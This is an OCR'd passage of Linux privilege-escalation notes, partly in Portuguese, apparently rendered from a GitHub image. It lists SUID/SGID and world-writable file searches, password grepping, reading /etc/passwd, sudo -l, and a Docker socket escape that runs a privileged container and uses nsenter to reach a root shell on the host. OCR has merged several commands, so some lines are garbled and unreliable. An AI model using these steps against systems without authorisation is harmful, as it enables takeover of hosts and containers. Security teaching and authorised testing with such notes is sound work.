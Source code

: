 # Escalação de Privilégios

find

* Locate SUID/SGID files:

\-perm +6000 -type f-perm +6000 -user root -type f(2000 = SGID, 4000 = SUID, 6000 = SUID+SGID)

* Search by name:

\-name \*.log

* Run commands on each item:

\-exec grep 'password' {} \\;\
What's the OS? What version? What architecture?

* cat /etc/\*-release
* uname -i
* lsb\_release -a (Debian based OSs)

\
Who are we? Where are we?

* id
* pwd

\
Who uses the box? What users? (And which ones have a valid shell)

* cat /etc/passwd
* grep -vE "nologin|false" /etc/passwd

What's currently running on the box? What active network services are there?

* ps aux
* netstat -antup

\
What's installed? What kernel is being used?

* dpkg -l (Debian based OSs)
* rpm -qa (CentOS / openSUSE )
* uname -a

\
\# procurar por arquivos com permissão totalfind / -type f -perm 0777 2>/dev/null\
$ sudo -l # list binaries with sudo privies\
Dockerdocker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
